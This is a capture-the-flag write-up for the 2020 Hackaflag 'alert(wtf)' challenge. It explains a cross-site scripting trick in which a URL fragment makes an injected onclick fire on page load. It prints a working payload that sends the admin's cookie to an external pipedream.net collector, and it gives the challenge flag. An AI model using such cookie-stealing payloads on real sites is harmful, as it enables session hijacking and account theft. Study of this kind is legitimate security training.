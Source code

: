 # alert('wtf')
### STAGE: LINUS TORVALDS

This challenge is very simple if you use a "trick". We control what is inside the "onclick", so we can insert a "fetch" there to make the admin send us hi cookie. However, how do we trigger the onclick without clicking on the button?

Here, the trick I talked about is used. If, in the URL we sendo to the admin, we pass a `#<button_id>`, the onclick will be executed as the page loads. The HTML for the button will be:

``` HTML
<button id="x" onclick="fetch(`https://entrqu3y5wfm.x.pipedream.net/pwn=`+document.cookie)">Click me</button>
```

and the payload we will send to the admin is: 
```
http://159.65.249.122:4113/?dom=fetch(`https://entrqu3y5wfm.x.pipedream.net/pwn=`%2Bdocument.cookie)#x
```

Just like in the other Hackaflag challenges, we have a page where we send a URL that will be accessed by the admin. His cookie is the flag.
![Contact Admin Page](https://github.com/Haltz01/CTFs_Writeups/blob/master/2020_Hackaflag/alert(wtf)/alert2.png)

We get the admin's cookie and URL decode it. Done, we have the flag :)
`HACKAFLAG%7B4ut0_tr1gg3r_s4v3_m3%7D` -> URL DECODE -> `HACKAFLAG{4ut0_tr1gg3r_s4v3_m3}`

**Flag: `HACKAFLAG{4ut0_tr1gg3r_s4v3_m3}`**
